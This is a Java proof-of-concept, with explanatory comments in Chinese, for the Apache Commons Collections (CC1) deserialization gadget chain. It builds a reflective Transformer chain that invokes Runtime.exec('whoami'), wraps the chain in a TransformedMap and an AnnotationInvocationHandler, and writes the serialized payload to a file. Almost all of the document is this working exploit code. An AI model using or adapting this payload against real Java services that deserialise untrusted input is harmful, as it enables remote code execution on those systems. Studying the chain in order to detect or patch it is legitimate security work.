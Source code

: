 ```java
public class POC_Test{
    public static void main(String[] args) throws Exception {
        //execArgs: 待执行的命令数组
        //String[] execArgs = new String[] { "sh", "-c", "whoami &gt; /tmp/fuck" };

        //transformers: 一个transformer链，包含各类transformer对象（预设转化逻辑）的转化数组
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            /*
            由于Method类的invoke(Object obj,Object args[])方法的定义
            所以在反射内写new Class[] {Object.class, Object[].class }
            正常POC流程举例：
            ((Runtime)Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec("gedit");
            */
            new InvokerTransformer(
                "getMethod",
                new Class[] {String.class, Class[].class },
                new Object[] {"getRuntime", new Class[0] }
            ),
            new InvokerTransformer(
                "invoke",
                new Class[] {Object.class,Object[].class }, 
                new Object[] {null, null }
            ),
            new InvokerTransformer(
                "exec",
                new Class[] {String[].class },
                new Object[] { "whoami" }
                //new Object[] { execArgs } 
            )
        };

        //transformedChain: ChainedTransformer类对象，传入transformers数组，可以按照transformers数组的逻辑执行转化操作
        Transformer transformedChain = new ChainedTransformer(transformers);

        //BeforeTransformerMap: Map数据结构，转换前的Map，Map数据结构内的对象是键值对形式，类比于python的dict
        //Map&lt;String, String&gt; BeforeTransformerMap = new HashMap&lt;String, String&gt;();
        Map<String,String> BeforeTransformerMap = new HashMap<String,String>();

        BeforeTransformerMap.put("hello", "hello");

        //Map数据结构，转换后的Map
       /*
       TransformedMap.decorate方法,预期是对Map类的数据结构进行转化，该方法有三个参数。
            第一个参数为待转化的Map对象
            第二个参数为Map对象内的key要经过的转化方法（可为单个方法，也可为链，也可为空）
            第三个参数为Map对象内的value要经过的转化方法。
       */
        //TransformedMap.decorate(目标Map, key的转化对象（单个或者链或者null）, value的转化对象（单个或者链或者null）);
        Map AfterTransformerMap = TransformedMap.decorate(BeforeTransformerMap, null, transformedChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, AfterTransformerMap);

        File f = new File("temp.bin");
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
    }
}
```